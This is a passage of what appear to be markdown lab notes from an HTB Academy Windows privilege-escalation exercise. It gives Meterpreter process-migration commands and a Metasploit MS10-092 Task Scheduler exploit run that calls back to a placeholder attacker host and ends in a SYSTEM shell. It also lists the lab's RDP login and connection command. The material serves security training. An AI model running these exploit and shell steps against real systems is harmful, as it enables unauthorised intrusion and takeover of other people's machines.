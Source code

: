 ### Process Migration for 64-bit
```cmd
# Check current process:
meterpreter > getpid
Current pid: 2268

# List processes:
meterpreter > ps

# Migrate to 64-bit process:
meterpreter > migrate 2796    # Choose x64 process
[*] Migration completed successfully.

# Background session:
meterpreter > background
```

### MS10-092 Privilege Escalation
```bash
# Use Task Scheduler exploit:
use exploit/windows/local/ms10_092_schelevator
set SESSION 1
set LHOST <attacker_ip>
set LPORT 4443
exploit

# Exploit process:
[*] Creating task: isqR4gw3RlxnplB
[*] Reading task file contents...
[*] Writing modified content back...
[*] Executing the task...
[*] Deleting the task...

# Result: NT AUTHORITY\SYSTEM shell
```

## 🎯 HTB Academy Lab Walkthrough

### Lab Environment
```cmd
# Access: RDP with htb-student:HTB_@cademy_stdnt!
# Target: Windows Server 2008 R2
# Objective: Get Administrator flag.txt
```

### Step-by-Step Solution

#### 1. Initial Access
```bash
# Connect via RDP:
rdesktop -u htb-student -p 'HTB_@cademy_stdnt!' <target_ip>
# Alternative if xfreerdp fails:
# rdesktop -u htb-student -p HTB_@cademy_stdnt! <target_ip>
```
